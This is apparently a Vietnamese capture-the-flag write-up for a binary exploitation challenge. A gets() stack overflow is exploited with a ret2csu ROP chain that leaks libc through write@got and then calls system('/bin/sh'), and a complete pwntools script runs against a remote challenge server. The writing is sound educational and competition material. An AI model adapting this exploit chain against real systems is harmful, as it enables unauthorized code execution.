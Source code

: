 # not\_a\_ret2libc (Pwn)

Bài này đưa sẵn source code, libc

<figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

{% code title="not_ret2libc.c" lineNumbers="true" %}
```c
#include <stdio.h>

int main()
{
    char buf;
    write(1,"give me something please: ",0x1b);
    gets(&buf);
return 0;
}
```
{% endcode %}

Nhìn đề bài là phải leak được libc ( don't care about the title :))) ). Mình sẽ cố gắng gọi  `write(1,write@got,8)`

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

Bài này không có `pop rdx` gadget nên mình nghĩ tới cách ret2csu.

Kiểm tra hàm `__libc_csu_init`

```asmatmel
   0x00000000004011a0 <+0>:     endbr64 
   0x00000000004011a4 <+4>:     push   r15
   0x00000000004011a6 <+6>:     lea    r15,[rip+0x2c63]        # 0x403e10
   0x00000000004011ad <+13>:    push   r14
   0x00000000004011af <+15>:    mov    r14,rdx
   0x00000000004011b2 <+18>:    push   r13
   0x00000000004011b4 <+20>:    mov    r13,rsi
   0x00000000004011b7 <+23>:    push   r12
   0x00000000004011b9 <+25>:    mov    r12d,edi
   0x00000000004011bc <+28>:    push   rbp
   0x00000000004011bd <+29>:    lea    rbp,[rip+0x2c54]        # 0x403e18
   0x00000000004011c4 <+36>:    push   rbx
   0x00000000004011c5 <+37>:    sub    rbp,r15
   0x00000000004011c8 <+40>:    sub    rsp,0x8
   0x00000000004011cc <+44>:    call   0x401000 <_init>
   0x00000000004011d1 <+49>:    sar    rbp,0x3
   0x00000000004011d5 <+53>:    je     0x4011f6 <__libc_csu_init+86>
   0x00000000004011d7 <+55>:    xor    ebx,ebx
   0x00000000004011d9 <+57>:    nop    DWORD PTR [rax+0x0]
   0x00000000004011e0 <+64>:    mov    rdx,r14
   0x00000000004011e3 <+67>:    mov    rsi,r13
   0x00000000004011e6 <+70>:    mov    edi,r12d
   0x00000000004011e9 <+73>:    call   QWORD PTR [r15+rbx*8]
   0x00000000004011ed <+77>:    add    rbx,0x1
   0x00000000004011f1 <+81>:    cmp    rbp,rbx
   0x00000000004011f4 <+84>:    jne    0x4011e0 <__libc_csu_init+64>
   0x00000000004011f6 <+86>:    add    rsp,0x8
   0x00000000004011fa <+90>:    pop    rbx
   0x00000000004011fb <+91>:    pop    rbp
   0x00000000004011fc <+92>:    pop    r12
   0x00000000004011fe <+94>:    pop    r13
   0x0000000000401200 <+96>:    pop    r14
   0x0000000000401202 <+98>:    pop    r15
   0x0000000000401204 <+100>:   ret  
```

Yeah, tại `__libc_csu_init+64`  có gadget `mov rdx,r14` giúp ta ghi thanh rdx.

Đầu tiên mình sẽ sử dụng các gadget bắt đầu ở `__libc_csu_init+f6` để ghi các giá trị mong muốn vào cách thanh ghi.

`mov rdx,r14` -> ghi đè r14=8

`mov rsi,r13` -> ghi đè r13=write@got

`mov edi,r12d` -> ghi đè r12=1

`call QWORD PTR [r15+rbx*8]` -> ghi đè r15=write@got và rbx=0

`add rbx,0x1; cmp rbp,rbx` -> ghi đè rbp=1 để thoát loop `jne 0x4011e0` `<__libc_csu_init+64>`

ROPchain đầu tiên

```python
payload =b'0'
payload =b'0'
payload+=b'A'*8
payload+=p64(0x00000000004011fa)
payload+=p64(0) #rbx=0
payload+=p64(1) #rbp=1
payload+=p64(1)#r12=1 mov rdi, r12d
payload+=p64(exe.got["write"])#r13 mov rsi,r13
payload+=p64(8)#r14=8 mov rdx,r14
payload+=p64(exe.got["write"])#r15 -> call *(r15+rbx*8)
payload+=p64(0x00000000004011e0)
payload+=p64(0)*7 #padding
payload+=p64(exe.sym["main"]) #back to main
```

Đoạn sau chỉ cần lợi dụng địa chỉ của hàm `write` bị leak để tính địa chỉ của chuỗi `"/bin/sh"` và hàm `system`

```python
system=libc.sym["system"]-libc.sym["write"]+int(leak.hex(),16)
binsh=next(libc.search(b"/bin/sh"))-libc.sym["write"]+int(leak.hex(),16)
log.info(hex(system))
log.info(hex(binsh))
```

ROPchain trước đã giúp ta quay lại hàm main, giờ gửi thêm ROPchain mới để gọi hàm system

```python
payload =b'0'
payload+=b'A'*8
payload+=p64(pop_rdi_ret)
payload+=p64(binsh)
payload+=p64(0x0000000000401204)#ret
payload+=p64(system)
```

Scirpt giải

```python
#!/usr/bin/env python3
from pwn import *
from time import sleep
exe = ELF("not_a_ret2libc_patched")
libc = ELF("./libc-2.31.so")
ld = ELF("./ld-2.31.so")
pop_rdi_ret=0x0000000000401203
pop_rsi_pop_r15_ret=0x0000000000401201
context.binary = exe
context.log_level='debug'
#p=exe.process()
#gdb.attach(p,gdbscript="b *main+62")
p=remote("45.122.249.68",10022)
#stage1
p.recv()
sleep(1)
payload =b'0'
payload+=b'A'*8
payload+=p64(0x00000000004011fa)
payload+=p64(0) #rbx=0
payload+=p64(1) #rbp
payload+=p64(1)#r12=1 mov rdi, r12d
payload+=p64(exe.got["write"])#r13 mov rsi,r13
payload+=p64(8)#r14=8 mov rdx,r15
payload+=p64(exe.got["write"])#r15 -> call *(r15+rbx*8)
payload+=p64(0x00000000004011e0)
payload+=p64(0)*7 #padding
payload+=p64(exe.sym["main"])
p.sendline(payload)
sleep(1)
leak=p.recv()[:8][::-1]
sleep(1)
log.info(leak.hex())
#calculate
system=libc.sym["system"]-libc.sym["write"]+int(leak.hex(),16)
binsh=next(libc.search(b"/bin/sh"))-libc.sym["write"]+int(leak.hex(),16)
log.info(hex(system))
log.info(hex(binsh))
#stage2
payload =b'0'
payload+=b'A'*8
payload+=p64(pop_rdi_ret)
payload+=p64(binsh)
payload+=p64(0x0000000000401204)#ret
payload+=p64(system)
p.sendline(payload)
sleep(1)
p.interactive()
```

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

Flag: `W1{t0o_m4nY_g4dg3t_f0r_Xplo1t}`







